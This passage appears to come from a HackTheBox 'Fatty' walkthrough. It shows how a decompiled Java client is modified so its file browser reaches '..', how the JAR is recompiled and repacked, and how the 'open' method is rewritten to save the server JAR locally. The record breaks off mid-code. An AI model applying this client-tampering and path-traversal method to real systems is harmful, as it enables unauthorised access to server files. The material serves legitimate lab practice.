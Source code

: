     * the folder option in the above file is set in ```fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java``` - in this, we can replace the 'configs' folder name with '..':

      ```java
      ClientGuiTest.this.currentFolder = "..";
      try {
        response = ClientGuiTest.this.invoker.showFiles("..");
      ```

    * then, we can compile the file:

      ```ps
      javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
      ```

    * this generates several class files, we can extract it into a new folder:

      ```ps
      mkdir raw

      cp fatty-client-new.jar raw\fatty-client-new-2.jar
      ```

    * navigate to the new directory, decompress the JAR file; then overwrite the class files with the updated files:

      ```ps
      mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
      ```

    * build the new JAR file:

      ```ps
      cd raw

      jar -cmf META-INF\MANIFEST.MF traverse.jar .
      ```

    * now if we log into the app and navigate to FileBrowser > Config, we can see the content of the directory ```configs/../``` - we can view the script 'start.sh' here

    * the script shows the 'fatty-server.jar' file is running inside an Alpine Docker container

    * we can modify the 'open' function in ```fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java``` to download the 'fatty-server.jar' file:

      ```java
      import java.io.FileOutputStream;
      <SNIP>
      public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
          String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
          logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
          if (AccessCheck.checkAccess(methodName, this.user)) {
              return "Error: Method '" + methodName + "' is not allowed for this user account";
          }
          this.action = new ActionMessage(this.sessionID, "open");
          this.action.addArgument(foldername);
          this.action.addArgument(filename);
          sendAndRecv();
          String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
          FileOutputStream fos = new FileOutputStream(desktopPath);
          